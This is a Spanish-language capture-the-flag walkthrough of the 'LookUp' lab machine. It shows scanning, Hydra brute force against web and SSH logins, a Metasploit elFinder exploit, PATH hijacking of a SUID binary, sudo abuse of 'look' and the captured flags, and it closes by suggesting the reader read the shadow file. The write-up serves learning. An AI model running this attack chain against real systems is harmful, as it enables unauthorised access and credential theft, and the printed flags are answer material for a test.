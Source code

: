# Walkthrough de LookUp

Binyamin

## Paso 1: Análisis con nmap

```bash
nmap -sV -T5 -sS -Pn --min-rate 6000 -p- --open -oA $IP
```

### Resultados nmap

Resultados obtenidos del escaneo con nmap.

---

## Paso 2: Agregar dominio al archivo /etc/hosts

```bash
echo "$IP lookup.thm" >> /etc/hosts
```

Este paso simplifica la resolución de nombres y facilita la administración de red.

---

## Paso 3: Analizando el login

Credenciales probadas:

```text
username: prueba1
password: pass123
```

Se obtiene un mensaje de error "wrong username or password", lo que sugiere la necesidad de realizar un ataque de fuerza bruta.

---

## Paso 4: Uso de un script para encontrar usernames

Descarga y ejecución del script:

```bash
wget https://raw.githubusercontent.com/BinyaminT/THM/refs/heads/main/CTF/LookUp/username.py
python3 username.py /usr/share/wordlists/SecLists/Usernames/Names/
```

Se encuentran los usuarios: `admin` y `jose`.

---

## Paso 5: Uso de fuerza bruta con Hydra

```bash
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:F=wrong password" -t 16
```

---

## Paso 6: Acceder a la página con credenciales encontradas

```text
username: jose
password: password123
```

Se obtiene un error debido a la falta del subdominio `files.lookup.thm`. Se soluciona con:

```bash
echo "$IP files.lookup.thm" >> /etc/hosts
```

---

## Paso 7: Identificación de vulnerabilidades

Se detecta el uso de `elFinder 2.1.47`. Buscamos un exploit en Metasploit:

```bash
msfconsole
search elFinder 2.1.47
```

Seleccionamos el exploit adecuado y configuramos Metasploit.

---

## Paso 8: Ejecución de Meterpreter y búsqueda de binarios SUID

```bash
shell
find / -perm /4000 2>/dev/null
```

Se encuentra un binario sospechoso: `pwm`.

---

## Paso 9: Explotación del binario pwm

Se detecta que `pwm` ejecuta `id` sin ruta absoluta, lo que permite un ataque de Path Hijacking.

Creamos un binario falso de `id`:

```bash
echo '#!/bin/bash' > /tmp/id
echo 'echo "uid=1000(think) gid=1000(think) groups=1000(think)"' >> /tmp/id
chmod +x /tmp/id
```

Modificamos la variable `$PATH`:

```bash
export PATH=/tmp:$PATH
```

---

## Paso 10: Obtener credenciales del usuario `think`

Se guardan en `limpio.txt` y se usa Hydra para obtener la contraseña de SSH:

```bash
hydra -l think -P limpio.txt ssh://IP_DEL_OBJETIVO -t 16
```

Accedemos al sistema vía SSH.

---

## Primera Flag

```text
38375fb4dd8baa2b2039ac03d92b820e
```

---

## Paso 11: Escalada de privilegios

Ejecutamos:

```bash
sudo -l
```

Se detecta que el binario `look` puede ejecutarse con sudo. Buscamos su explotación en GTFOBins:

[https://gtfobins.github.io/gtfobins/look/#sudo](https://gtfobins.github.io/gtfobins/look/#sudo)

Este binario nos permitió obtener la segunda flag, denominada root.txt, que generalmente se encuentra en `/root/root.txt`.

```text
Segunda Flag: 5a285a9f257e45c68bb6c9f9f57d18e8
```

Ahora es tu turno: ¡intenta conseguir acceso root con este binario! Quizás puedas leer el archivo `shadow` o encontrar otro servicio SSH disponible para explotar.

---

## Flag final

Obtenemos la flag de root y completamos el desafío.

